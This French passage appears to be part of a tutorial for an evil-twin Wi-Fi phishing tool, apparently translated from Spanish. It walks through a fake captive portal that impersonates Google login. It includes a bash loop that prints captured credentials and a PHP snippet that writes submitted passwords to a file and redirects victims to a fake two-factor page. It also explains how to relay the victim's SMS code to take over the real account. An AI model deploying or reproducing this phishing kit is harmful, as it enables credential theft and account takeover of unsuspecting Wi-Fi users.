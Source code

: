Il faut s'attendre à ce que dans cette phase, on nous demande avec quel modèle nous voulons travailler.

Si l'un est sélectionné, par exemple imaginons… '**google-login**', ce qui se passera, c'est que dès que le client se connectera à l'AP, le navigateur s'ouvrira automatiquement, étant redirigé vers un portail d'authentification, dans ce cas, le Google plate-forme, où vous verrez que pour continuer à naviguer, il est nécessaire de vous connecter avec votre compte de modèle sélectionné.

La victime ne verra jamais les adresses IP ou quelque chose comme ça, donc cela leur fera penser à tout moment qu'ils sont sur la page officielle.

Chaque modèle est organisé dans son propre répertoire, où après avoir sélectionné celui avec lequel nous voulons travailler, un `pushd` à ce répertoire pour monter ultérieurement un serveur Web à l'aide phpHébergé par le port 80.

A ce stade, la fonction s'appelle  `getCredentials`, qui est celui qui sera chargé de surveiller un fichier à partir duquel nous pourrons savoir à tout moment qui a saisi ses informations d'identification, pouvant les voir plus tard en texte clair :


```go
function getCredentials(){

	tput civis; while true; do
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Esperando credenciales (${endColour}${redColour}Ctr+C para finalizar${endColour}${grayColour})...${endColour}\n${endColour}"
		for i in $(seq 1 60); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		find \-name datos-privados.txt | xargs cat 2>/dev/null
		for i in $(seq 1 60); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		sleep 3; clear
	done
}
```

Puisqu'il est probable que la victime ait activé le deuxième facteur d'authentification, avoir ses informations d'identification ne suffit parfois pas... car après la connexion, nous devrons saisir le code que la plateforme envoie à l'appareil mobile associé via SMS.

Ne vous inquiétez pas, tout est compris. Chaque modèle de portail sélectionné possède un fichier `post.php`, où après avoir signalé les informations d'identification à un fichier externe, un `Redirect` vers un autre template de la même plateforme, où le code reçu est demandé :

```php
<?php $file = 'datos-privados.txt'; file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=http://192.168.1.1/portal_2fa/index.php" />
```

Pour ceux qui n'ont pas bien compris le geste, je vais l'expliquer ici : La victime saisit ses identifiants d'accès à la plateforme que vous avez choisie pour continuer à naviguer, vous en tant qu'attaquant recevez ces identifiants en clair depuis la console, puis la victime est redirigé vers un autre portail où il vous est demandé de saisir le SMS reçu. L'astuce est que la victime n'a pas accès à Internet depuis votre point d'accès, elle ne recevra donc jamais de code pour cette session, car elle ne se connecte pas au modèle officiel. La blague est que par derrière, puisque vous avez déjà leurs informations d'identification, vous les validerez immédiatement manuellement sur la vraie plate-forme, donc dans le cas où ils vous demanderaient plus tard le code d'authentification du deuxième facteur, car la victime est maintenant dans ce modèle en attendant le code, un SMS arrivera mais de votre session, pas de la sienne, ce qui lui fera penser qu'une fois saisi, il accédera à son compte.

